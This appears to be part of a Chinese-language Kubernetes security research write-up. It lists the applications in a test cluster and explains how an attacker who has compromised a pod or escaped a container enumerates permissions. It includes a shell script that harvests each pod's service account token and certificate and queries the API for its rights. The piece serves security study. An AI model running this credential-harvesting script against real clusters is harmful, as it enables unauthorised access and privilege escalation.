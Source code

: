 ### 研究环境中出现的应用程序

在本次搭建的研究环境中，安装了下面这些应用程序。

| NAME | NAMESPACE | CHART | APP VERSION |
| --- | --- | --- | --- |
| argo | default | argo-cd-5.27.1 | V2.6.6 |
| argo-workflows | kube-system | argo-workflows-0.22.14 | v3.4.5 |
| cert-manager | cert-manager | cert-manage-v1.11.1 | vl.11.1 |
| fluentd-bitnami | default | fluentd-5.6.5 | 1.16.1 |
| ingress-nginx | default | ingress-nginx-4.6.0 | 1.7.0 |
| jenkins | default | jenkins-4.3.22 | 2.387.2 |
| kube-prometheus-stack | default | kube-prometheus-stack-45.21.0 | v0.63.0 |
| kubemetes-dashboard | default | kubemetes-dashboard-6.0.6 | v2.7.0 |
| mysql | default | mysql-9.6.0 | 8.0.32 |
| photoshow | default | photoshow-1.0.1 | 48aabb98 |
| redis | default | redis-17.8.5 | 7.0.9 |

每个请求服务账户的应用程序，都经过了枚举和测试，查看该应用程序所要求的那些权限，能否用来渗透k8s集群。

### 对Host的枚举

k8s环境可以通过多种方式实现枚举。

（1）如果攻击者入侵了单个pod，就可以在pod中找这个路径`/var/run/secrets`，以便访问k8s API并通过身份验证。

（2）攻击者执行"容器逃逸"(container escape)并获得对host的访问。

此时，攻击者可以执行简单的shell脚本，如下，kubelet-enum.sh

```plain
for mydir in $(find /var/lib/kubelet/pods -name namespace -exec dirname {} \;); do
  echo "Checking $mydir"
  # 设置环境变量
  export cert=$mydir/ca.crt
  export token=$mydir/token
  export namespace=$mydir/namespace
  export apiserver=$(netstat -n | grep 6443 | awk '{ print $5 }' | uniq)
  echo "$cert $namespace $token $apiserver"
  kubectl --certificate-authority=$cert --token=$(cat $token) --namespace=$(cat $namespace) --server=https://$apiserver auth can-i --list
done
```

脚本的作用是：

枚举被攻击者控制的主机上的每个pod拥有的"权限"。
